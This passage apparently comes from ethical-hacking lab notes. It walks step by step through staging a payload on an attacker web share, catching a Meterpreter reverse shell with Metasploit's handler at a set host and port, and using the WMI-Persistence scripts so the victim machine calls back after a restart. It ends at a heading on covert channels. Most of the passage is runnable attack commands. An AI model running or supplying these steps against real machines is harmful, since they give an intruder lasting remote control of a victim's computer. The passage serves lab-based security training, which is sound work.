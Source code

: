     cp /home/attacker/Desktop/Payload.exe /var/www/html/share/
    cp /home/attacker/Desktop/wmi.exe /var/www/html/share/
    ```
- Start the Apache server: `service apache2 start`
- Launch Metasploit: `msfconsole`
- In Metasploit:
    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set Lhost 10.10.1.13
    set Lport 444
    run
    ```
- On the victim machine navigate to `http://10.10.1.13/share` to view the shared folder.
- Download `Payload.exe` and `wmi.exe`.
- Run `Payload.exe` on victim machine. Switch back to attacker machine and observe the opened meterpreter session.
- Type `getuid` to display the current user ID.
- In Metasploit, upload the [WMI-Persistence](https://github.com/n0pe-sled/WMI-Persistence) scripts:
    ```bash
    upload -r Wmi-Persistence C:\\Users\\Administrator\\Downloads
    ```
- Load PowerShell in Metasploit: `load powershell`
- Open PowerShell: `powershell shell`
- In PowerShell, import the WMI-Persistence module:
    ```powershell
    Import-Module ./WMI-Persistence.ps1
    Install-Persistence -Trigger Startup -Payload "C:\Users\Administrator\Downloads\wmi.exe"
    ```
   - Wait for approximately 5 minutes for the script to execute.
- Open a new terminal with root privileges and launch Metasploit: `msfconsole`
- In Metasploit:
    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set Lhost 10.10.1.13
    set Lport 444
    exploit
    ```
- Switch back to the previous terminal, press `Ctrl+C`, type `y` and press `Enter` to exit PowerShell.
- Restart the victim machine. On attacker machine, observe the session closure.
- Once restarted, a new meterpreter session will open. Type `getuid` to display the server username.
- The system now has escalated privileges and persistence, demonstrated by the automatic session creation after a restart.

---
#### Covert Channels using Covert_TCP
